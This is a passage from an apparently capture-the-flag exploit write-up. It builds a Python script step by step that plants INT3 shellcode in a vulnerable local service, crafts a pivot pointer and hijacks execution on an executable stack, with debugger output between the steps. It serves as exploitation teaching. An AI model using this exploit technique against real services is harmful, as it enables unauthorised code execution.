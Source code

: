 Good, we have control over ```rax```. Now let's use this to dereference the pointer to the first string:

{% highlight python)
s.send('u ' + str(p_tmp) + ' ' + struct.pack('>L', p_shellcode-0x10) + '\n')
{% endhighlight)

Which obviously still crashes, because now the binary executes:

{% highlight bash)
#0  0x0000000021465443 in ?? ()
{% endhighlight)

Which obviously contains no data, nor any code. But let's give it a proper pointer, shall we? And while I'm at it, I'll set the shellcode to ```INT3```. The stack is executable, so this should work!

{% highlight python)
#!/usr/bin/python

from socket import *
import time, re, struct


def getID(data):
    match = re.search(r'(\d.*)$', data.strip())
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
print s.recv(1024)

# send first string. this will be our shellcode
s.send('c 0 \xCC\xCC\xCC\xCC\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_shellcode = getID(data)

print '[+] shellcode = 0x{0:08x}'.format(p_shellcode)


# send second string. this will be our 'pivot' pointer.
s.send('c 0 ' + struct.pack('<L', p_shellcode) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_pivot = getID(data)

print '[+] pivot = 0x{0:08x}'.format(p_pivot)

# let's crash the binary to see if this works
s.send("c 1\n")

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' ' + struct.pack('<L', p_pivot-0x10) + '\n')

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_vuln = getID(data)

print '[+] vulnerable pointer = 0x{0:08x}'.format(p_vuln)
